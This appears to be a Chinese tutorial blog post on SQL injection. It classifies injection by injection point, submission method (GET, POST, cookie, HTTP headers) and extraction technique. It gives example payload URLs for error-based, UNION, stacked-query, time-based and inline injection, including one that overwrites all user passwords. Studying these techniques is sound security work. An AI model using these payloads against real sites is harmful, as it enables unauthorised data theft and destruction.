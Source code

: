 ```yaml
---
layout:     post
title:      渗透测试之web安全（一）：SQL注入
subtitle:   各种类型的SQL注入介绍及方法
date:       2018-12-04
author:     wangxiatian
header-img: img/post-bg-kuaidi.jpg
catalog: true
tags:
    - 渗透测试
    - web安全
---
```


## 前言 

在OWASP TOP10中，注入漏洞从2010年至现在依然是排名首位的安全漏洞，这是web安全中最基础最重要的也是最难以掌握的一种漏洞。

## SQL注入类型介绍

### 一、不同的注入点

1、数字类型的注入
当输入参数为数字类型时，例如页码，ID等，存在注入时则为数字类型的注入。

测试方法如下：

http://www.xx.com/a.php?id=1  返回正常

http://www.xx.com/a.php?id=1’ 返回异常

http://www.xx.com/a.php?id=1 and 1 =1 返回正常

http://www.xx.com/a.php?id=1 and 1 =2 返回异常

上面例子说明存在注入可能。这类注入方式常见于PHP和ASP等弱类型语言中，弱类型语言会自动推导数据类型，例，输入的ID的值为1时，会自动推导出ID的数据类型为int型，当输入的ID的值为1 and 1 = 2时，会自动推导出ID的数据类型为string型，但JAVA或者C#这类强类型语言并没有这样的特性，int型强制转换成string型时，会抛出异常，注入失败，所以这类注入方式常见于弱类型语言中。

2、字符串类型的注入

当输入参数为字符串类型时，则为字符串类型的输入，其与数字类型的注入的区别在于：注入时需要使用单引号来闭合。

测试方法如下：

http://www.xx.com/b.php?name=admin

http://www.xx.com/b.php?name=admin’and 1 = 1 --     返回正常

其不同主要原因在于sql语句的差异，例，select *from user where name = ‘admin’ 则注入时需要单引号闭合，注入的数据应为admin’and 1 = 1 --，合并为sql则为select * from user where name = ‘admin’and 1 = 1 – ‘ 。
	
### 二、不同的提交方式
(1)、GET注入

提交数据的方式是 GET ,注入点的位置在 GET 参数部分。比如有这样的一个链接http://xxx.com/news.php?id=1 , id 是注入点。

(2)、POST注入

使用 POST 方式提交数据，注入点位置在 POST 数据部分，常发生在表单中。

(3)、COOKIE注入

要想深入了解Cookie注入的成因，必须要了解ASP脚本中的request对象。它被用来获取客户端提交的数据，其一般的使用方法是：request.[集合名称](参数名称)，但ASP中也可以省略集合名称，直接使用request(“参数名称”)，当使用这样的方法时，ASP规定是按QueryString、Form、Cookies、ServerVariables的顺序来获取数据的，当我们使用request("参数名称")方式获取客户端提交的数据，并且没有对使用request.cookies("参数名称")方式提交的数据进行过滤时，Cookie注入就产生了。
测试方法如下：
1.先判断注入点是否存在，例http://www.xx.com/a.asp?id=128去掉id后是否能正常访问，若无法正常访问则id参数在数据传输中起作用

2.清空浏览器，在浏览器地址栏输入”javascript:alert(document.cookie="id="+escape("xx"));”，回车后弹出对话框，使用原来的URL刷新页面，页面正常，说明是以request(“id”)获取数据。

3.测试用例：URL: “javascript:alert(document.cookie="id="+escape("and1 = 1"));”
  URL: “javascript:alert(document.cookie="id="+escape("and1 = 2"));”
判断是否有注入点方法与其余sql注入一致。

(4)、HTTP注入

X-Forwarded-For是HTTP头的一个字段。它被认为是客户端通过HTTP代理或者负载均衡器连接到web服务端获取源ip地址的一个标准。
Useragent是记录软件程序的客户端信息的HTTP头字段，他可以用来统计目标和违规协议。在HTTP头中应该包含它，这个字段的第一个空格前面是软件的产品名称，后面有一个可选的斜杠和版本号。
Referer是另外一个当应用程序没有过滤存储到数据库时，容易发生SQL注入的HTTP头。它是一个允许客户端指定的可选头部字段，通过它我们可以获取到提交请求URI的服务器情况。它允许服务器产生一系列的回退链接文档，像感兴趣的内容，日志等。它也允许跟踪那些坏链接以便维护。

### 三、不同获取信息的方式
(1)、Boolean-based blind SQL injection（布尔型注入）

通过判断页面返回情况获得想要的信息。
如下SQL注入：
http://hello.com/view?id=1 and substring(version(),1,1)=5
如果服务端MySQL版本是5.X的话，那么页面返回的内容就会跟正常请求一样。攻击者就可以通过这种方式获取到MySQL的各类信息。
	
(2)、Error-based SQL injection（报错型注入）

如果页面能够输出SQL报错信息，则可以从报错信息中获得想要的信息。
典型的就是利用group by的duplicate entry错误。关于这个错误，貌似是MySQL存在的 bug： duplicate key for entry on select?、 SQL Injection attack - What does this do?
如下SQL注入：
http://hello.com/view?id=1%20AND%20(SELECT%207506%20FROM(SELECT%20COUNT(*),CONCAT(0x717a707a71,(SELECT%20MID((IFNULL(CAST(schema_name%20AS%20CHAR),0x20)),1,54)
%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202,1),0x7178786271,FLOOR(RAND(0)*2))x%20
FROM%20INFORMATION_SCHEMA.CHARACTER_SETS%20GROUP%20BY%20x)a)
在抛出的SQL错误中会包含这样的信息： Duplicate entry 'qzpzqttqxxbq1' for key 'group_key'，其中qzpzq和qxxbq分别是0x717a707a71和0x7178786271，用这两个字符串包住了tt（即数据库名），是为了方便sql注入程序从返回的错误内容中提取出信息。
	
(3)、UNION query SQL injection（可联合查询注入）

最快捷的方法，通过UNION查询获取到所有想要的数据，前提是请求返回后能输出SQL执行后查询到的所有内容。
如下SQL注入：
http://hello.com/view?id=1 UNION ALL SELECT SCHEMA_NAME, DEFAULT_CHARACTER_SET_NAME FROM INFORMATION_SCHEMA.SCHEMATA
	
(4)、Stacked queries SQL injection（可多语句查询注入）

即能够执行多条查询语句，非常危险，因为这意味着能够对数据库直接做更新操作。
如下SQL注入：
http://hello.com/view?id=1;update t1 set content = 'aaaaaaaaa'
在第二次请求 http://hello.com/view?id=1时，会发现所有的content都被设置为aaaaaaaaa了。
	
(5)、Time-based blind SQL injection（基于时间延迟注入）

页面不会返回错误信息，不会输出UNION注入所查出来的泄露的信息。类似搜索这类请求，boolean注入也无能为力，因为搜索返回空也属于正常的，这时就得采用time-based的注入了，即判断请求响应的时间，但该类型注入获取信息的速度非常慢。
如下SQL注入：
http://hello.com/view?q=abc' AND (SELECT * FROM (SELECT(SLEEP(5)))VCVe) OR 1 = '
该请求会使MySQL的查询睡眠5S，攻击者可以通过添加条件判断到SQL中，比如IF(substring(version(),1,1)=5, sleep(5), ‘t’) AS value就能做到类似boolean注入的效果，如果睡眠了5s，那么说明MySQL版本为5，否则不是，但这种方式获取信息的速度就会很慢了，因为要做非常多的判断，并且需要花时间等待，不断地去测试出相应的值出来。
	
(6)、Inline queries SQL injection（内联查询注入）

内联注入是指向查询注入一些SQL代码后，原来的查询仍然会全部执行。
例如某网站有修改密码的功能，用户必须输入旧密码并进行确认才能设置新密码。实现该功能的查询语句可能与下面的UPDATE语句类似：
UPDATE users  
SET password = 'new_password' 
WHERE username = 'Bob' and password = 'old_password' 
如果此处有SQL注入，且注入了'OR '1'='1,那么该UPDATE语句为：
UPDATE users  
SET password = 'new_password' 
WHERE username = 'Bob' and password = 'old_password' OR '1'='1' 
所以该攻击将把users表中所有密码都更新为new_password，因此所有用户都将无法登录该应用程序。
